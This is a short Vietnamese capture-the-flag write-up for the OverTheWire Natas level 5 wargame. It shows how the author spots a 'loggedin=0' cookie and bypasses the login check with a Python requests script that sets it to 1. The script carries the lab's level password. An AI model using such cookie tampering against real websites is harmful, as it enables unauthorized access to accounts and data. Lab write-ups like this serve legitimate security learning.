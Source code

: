 # Natas5

![1](image/1.png)

- Mới vào thì thấy ngay dòng thông báo `Access disallowed. You are not logged in`

- `F12` coi thử xem có gì

![2](image/2.png)

- Ta để ý thấy dòng `loggedin=0`

- Đề nói ta chưa login, theo logic thì chuyển `loggedin=0` thành `loggedin=1` thì chắc sẽ được. bắt tay vào làm thử

- Code của mình:

```
	import requests
	import re

	username = 'natas5'
	password = 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	cookies = {
		'loggedin' : '1'
	}

	response = requests.get(url, auth = (username, password), cookies = cookies)

	print(response.text)
```

- Chỉ cần thêm thay đổi đó trong phần `cookies` là OK

![3](image/3.png)
